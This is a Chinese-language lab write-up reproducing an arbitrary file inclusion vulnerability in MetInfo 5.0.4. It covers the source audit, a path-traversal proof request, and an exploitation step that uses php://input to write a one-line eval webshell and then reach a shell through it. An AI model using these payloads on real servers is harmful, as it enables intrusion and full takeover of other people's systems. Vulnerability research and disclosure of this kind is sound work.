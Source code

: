 # metinfo 5.0.4 任意文件包含



## 漏洞描述

MetInfo 是一套使用PHP 和MySQL 开发的内容管理系统。 MetInfo 5.0.4 版本中存在一个任意文件包含漏洞，这个漏洞允许攻击者通过构造特定的请求参数来包含并执行服务器上的任意文件。具体来说，MetInfo 5.0.4 的模板引擎在解析模板文件时，没有对用户输入的文件路径进行严格的过滤和校验，导致攻击者可以通过构造特殊的文件路径参数，来读取、包含甚至执行服务器上的任意文件。这可能导致敏感信息泄露，或者使得服务器被完全控制。



## 影响版本

metinfo 5.0.4 



## 漏洞复现

采用 Windows Server2022 作为目标机

采用Kali Linux为攻击机

采用 phpStudy 2016 + metinfo 5.0.4 为环境





## 漏洞验证

> **代码审计**

![image-20240409201249192](https://typora-picgo-push.oss-cn-hangzhou.aliyuncs.com/img-for-typora/image-20240409201249192.png)

可以看到，`/metinfo_5.0.4/about/index.php`源码中，既包含了 `/metinfo_5.0.4/include/module.php` 文件，而且动态包含了` $module`，而 `$module `并未在本页面定义，我们可以追进`/metinfo_5.0.4/include/module.php`文件一探究竟

![image-20240409202807559](https://typora-picgo-push.oss-cn-hangzhou.aliyuncs.com/img-for-typora/image-20240409202807559.png)

在本`module.php`源码中，我们可以看到，`$module` 在` module.php ` 中首次出现在判断执行的语句内，当变量 `$fondule`不为 7 时，对` $module` 进行赋值操作。又由`index.php`源码知，`$fondule`已经被赋值为1，所以在包含`module.php`时，会触发该判断语句。

---

那么此时，我们需要思考一个问题，该如何改变 `$fmodule` 的值，使其为7不进入该判断语句，使得`module`不被初始化呢？

我们来到被`module.php`头部被动态包含的`common.inc.php`源码中

![image-20240409202149935](https://typora-picgo-push.oss-cn-hangzhou.aliyuncs.com/img-for-typora/image-20240409202149935.png)

可以看到，圈住的是`index.php`最终接收传参代码位置。这段代码的目的是对`$_COOKIE`、`$_POST`和`$_GET`这三个超全局变量数组中不以`'_'`开头的键值对进行特殊处理，并将处理后的值存储为对应的变量。

```
对请求的处理方法大致如下:
&module=c:/windows/system32/drivers/etc/hosts
    |                      |
$module =                  值
```

由源码分析可知，当传入参数 `$fmodule` 等于 7 时，不会对` $module` 进行初始化，此时传入参数为变量 `$module` 进行赋值即可实现文件包含。

> **构造请求进行尝试**

```
/MetInfo5.0.4/about/index.php?fmodule=7&module=../../../phpinfo.php
```

![image-20240409205554400](https://typora-picgo-push.oss-cn-hangzhou.aliyuncs.com/img-for-typora/image-20240409205554400.png)

可以看到成功访问phpinfo.php文件，故漏洞存在；

---



## 漏洞利用

使用BP进行抓包，将请求转换为POST

![image-20240409212904941](https://typora-picgo-push.oss-cn-hangzhou.aliyuncs.com/img-for-typora/image-20240409212904941.png)

可以看到，BP抓包重放页可以达到目的；

接下来利用php://input 执行PHP 命令，创建一句话木马

```php
<?php file_put_contents('windows_system.php','<?php @eval($_REQUEST[cmd]) ?>');?>
```

![image-20240409220649226](https://typora-picgo-push.oss-cn-hangzhou.aliyuncs.com/img-for-typora/image-20240409220649226.png)

可以看到成功重放，接下来看看能不能访问

![image-20240409220744317](https://typora-picgo-push.oss-cn-hangzhou.aliyuncs.com/img-for-typora/image-20240409220744317.png)

可以访问，那么使用蚁剑进行连接

![image-20240409220934812](https://typora-picgo-push.oss-cn-hangzhou.aliyuncs.com/img-for-typora/image-20240409220934812.png)

可以看到连接成功

![image-20240409221024378](https://typora-picgo-push.oss-cn-hangzhou.aliyuncs.com/img-for-typora/image-20240409221024378.png)

成功获取shell；

---

